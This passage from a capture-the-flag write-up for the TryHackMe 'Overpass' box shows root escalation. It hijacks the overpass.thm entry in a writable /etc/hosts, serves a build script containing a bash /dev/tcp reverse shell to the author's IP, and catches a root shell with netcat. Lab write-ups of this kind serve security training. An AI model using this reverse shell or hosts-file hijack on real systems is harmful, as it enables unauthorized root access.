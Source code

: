 We have rw access to the /etc/hosts. So we are able to replace the entry for overpass.thm with our own ip. On our system we have to provide the same path.

### Exploit
First we edit the /etc/hosts, so that the domain overpass.thm is referencing to our system:
```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
#127.0.0.1 overpass.thm
10.9.45.203 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
james@overpass-prod:~$ 
```

Then we create a script, which will run on the target system and sends us a reverse shell:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass]
└─$ cat downloads/src/buildscript.sh                                                                                                                    1 ⚙
bash -i >& /dev/tcp/10.9.45.203/8081 0>&1
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass]
└─$ 

```

Now we can start our http server:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass]
└─$ cat downloads/src/buildscript.sh                                                                                                                    1 ⚙
bash -i >& /dev/tcp/10.9.45.203/8081 0>&1
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass]
└─$ python3 -m http.server 80                                                                                                                       1 ⨯ 1 ⚙
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.86.132 - - [04/Sep/2023 18:27:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -


```

And the last step is to listen for incoming traffic from the reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.86.132 59032
bash: cannot set terminal process group (4471): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ^[[A

root@overpass-prod:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@overpass-prod:~# 
```
